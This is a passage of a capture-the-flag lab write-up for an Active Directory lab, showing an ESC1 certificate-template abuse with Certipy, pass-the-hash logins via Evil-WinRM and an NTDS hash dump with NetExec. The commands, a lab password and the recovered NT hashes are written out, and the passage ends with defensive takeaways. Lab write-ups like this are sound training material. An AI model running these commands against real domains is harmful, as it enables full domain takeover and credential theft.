

*Certipy identifying ESC1 on the AI_Takeover template with Soulkiller.svc enrollment rights*

Certipy flags an ESC1 vulnerability on the `AI_Takeover` template. The CA is `hacksmarter-DC01-CA` and the template is enabled with `Soulkiller.svc` holding enrollment rights.

## ESC1

ESC1 is a certificate template misconfiguration where the template allows the requester to specify an arbitrary identity in the Subject Alternative Name (SAN) and includes a client authentication EKU. When a user with enrollment rights requests a certificate from this template, they can supply any UPN in the SAN, including a domain admin. The CA issues the certificate without manager approval, and the attacker authenticates to the domain as the impersonated user via PKINIT. The Certipy wiki covers the full attack [here](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation).

The `AI_Takeover` template has `Enrollee Supplies Subject` set to `True`, `Client Authentication` enabled, no manager approval, and zero authorized signatures required. `Soulkiller.svc` has enrollment rights. This is a textbook ESC1.

We request a certificate as `Administrator`, specifying the Administrator UPN and SID in the request. The SID can be pulled from the Administrator object in BloodHound under the Object Information tab.

```
certipy-ad req -u 'soulkiller.svc' -p 'MYpassword123#' -dc-ip '10.0.21.50' -target 'dc01.hacksmarter.local' -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'administrator@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-500'
```

```
[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@hacksmarter.local'
[*] Certificate object SID is 'S-1-5-21-3154413470-3340737026-2748725799-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```



*Certipy requesting a certificate as Administrator via ESC1*

The certificate is issued and saved as `administrator.pfx`. With the PFX in hand we authenticate to the domain to recover the Administrator NT hash.

```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.0.21.50'
```

```
[*] Certificate identities:
[*]     SAN UPN: 'administrator@hacksmarter.local'
[*]     SAN URL SID: 'S-1-5-21-3154413470-3340737026-2748725799-500'
[*]     Security Extension SID: 'S-1-5-21-3154413470-3340737026-2748725799-500'
[*] Using principal: 'administrator@hacksmarter.local'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_KEY_EXPIRED(Password has expired; change password to reset)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
```



*Certipy PKINIT fails for Administrator: the account password has expired*

This one fails. The KDC returns `KDC_ERR_KEY_EXPIRED`, meaning the built-in Administrator account has an expired password. The certificate proves our identity, but the KDC still enforces the account's password state before issuing a ticket, and an expired password blocks the TGT. We head back to BloodHound and check the `Domain Admins` group for another target by clicking the group and reviewing its members.



*BloodHound showing the Domain Admins group members: Administrator and the_emperor*

There are two Domain Administrators: `Administrator`, which we already tried, and `the_emperor`. We run the same certificate request against `the_emperor`.

## ESC1 (the_emperor)

```
certipy-ad req -u 'soulkiller.svc' -p 'MYpassword123#' -dc-ip '10.0.21.50' -target 'dc01.hacksmarter.local' -ca 'hacksmarter-DC01-CA' -template 'AI_Takeover' -upn 'the_emperor@hacksmarter.local' -sid 'S-1-5-21-3154413470-3340737026-2748725799-1601'
```

```
[*] Requesting certificate via RPC
[*] Request ID is 4
[*] Successfully requested certificate
[*] Got certificate with UPN 'the_emperor@hacksmarter.local'
[*] Certificate object SID is 'S-1-5-21-3154413470-3340737026-2748725799-1601'
[*] Saving certificate and private key to 'the_emperor.pfx'
[*] Wrote certificate and private key to 'the_emperor.pfx'
```



*Certipy requesting a certificate as the_emperor via ESC1*

We get a valid PFX for `the_emperor`. Now we authenticate and pull the hash.

```
certipy-ad auth -pfx 'the_emperor.pfx' -dc-ip '10.0.21.50'
```

```
[*] Certificate identities:
[*]     SAN UPN: 'the_emperor@hacksmarter.local'
[*]     SAN URL SID: 'S-1-5-21-3154413470-3340737026-2748725799-1601'
[*]     Security Extension SID: 'S-1-5-21-3154413470-3340737026-2748725799-1601'
[*] Using principal: 'the_emperor@hacksmarter.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'the_emperor.ccache'
[*] Wrote credential cache to 'the_emperor.ccache'
[*] Trying to retrieve NT hash for 'the_emperor'
[*] Got hash for 'the_emperor@hacksmarter.local': aad3b435b51404eeaad3b435b51404ee:d87640b0d83dc7f90f5f30bd6789b133
```



*Certipy PKINIT authentication: TGT and NT hash recovered for the_emperor*

`the_emperor`'s password is valid and Certipy retrieves the NT hash `d87640b0d83dc7f90f5f30bd6789b133`. Since `the_emperor` is a Domain Administrator, this is domain-level access.

## Shell as the_emperor

Both RDP and WinRM are available on the DC, so we connect with Evil-WinRM using the recovered hash.

```
evil-winrm -i 10.0.21.50 -u 'the_emperor' -H 'd87640b0d83dc7f90f5f30bd6789b133'
```



*Evil-WinRM session as the_emperor on DC01*

We have a shell as `the_emperor`, but there is no flag on this user's desktop, so we need to reach `Administrator`. Let's confirm the privileges this account holds.

```
whoami /priv
```



*whoami /priv output confirming the_emperor's Domain Admin privilege set*

## NTDS Dump

With Domain Admin rights through `the_emperor`, we can dump the NTDS database. NTDS.dit is the Active Directory database on the domain controller, and it stores the password hashes for every account in the domain. Reading it requires privileged access to the DC, which we now have. NetExec handles the extraction remotely and we scope it to the `Administrator` account. The NetExec wiki documents the process [here](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit).

```
nxc smb 10.0.21.50 -u 'the_emperor' -H 'd87640b0d83dc7f90f5f30bd6789b133' --ntds --user Administrator
```



*NTDS dump: Administrator NT hash recovered via NetExec*

## Shell as Administrator (root.txt)

With the `Administrator` NT hash from the NTDS dump, we log in with Evil-WinRM. Password expiration is a policy state, not a change to the account's stored NT hash, so the hash itself stays valid. The KDC enforces that state before issuing a Kerberos ticket, which is why our earlier PKINIT attempt failed, but NTLM authentication over WinRM does not check it. Passing the hash directly authenticates us and gets us the session Kerberos would not.

```
evil-winrm -i 10.0.21.50 -u 'Administrator' -H '4366ec0f86e29be2a4a5e87a1ba922ec'
```



*Evil-WinRM session as Administrator on DC01*

We navigate to the Administrator's desktop, grab `root.txt`, and the domain is fully compromised.



*root.txt captured from the Administrator desktop*

## Final Thoughts

Arasaka is a solid easy-difficulty lab that walks through a clean, realistic ACL abuse chain. Starting from a single set of assumed-breach credentials, I chained Kerberoasting into a `GenericAll` Force Password Change, pivoted through a `GenericWrite` Targeted Kerberoast, and landed on an ESC1 template that handed over a Domain Administrator. The detail that makes this lab stand out is the expired Administrator password. Watching the first PKINIT authentication fail with `KDC_ERR_KEY_EXPIRED` and having to pivot to a second domain admin is a nice touch that reflects how real environments rarely line up perfectly on the first try.

The takeaways here are all about least privilege and certificate hygiene. Service accounts with SPNs should use long, random passwords managed through gMSA so Kerberoasting produces nothing crackable, and object-level ACLs like `GenericAll` and `GenericWrite` need regular auditing because they are exactly what lets an attacker walk from one account to the next. On the AD CS side, the `AI_Takeover` template is a textbook ESC1: any template that lets the enrollee supply the subject and includes a client authentication EKU should be locked down or removed unless there is a clear operational need. Tools like BloodHound and Certipy surface these paths in minutes, and defenders should be running the same queries attackers do.

— 0xB1rd
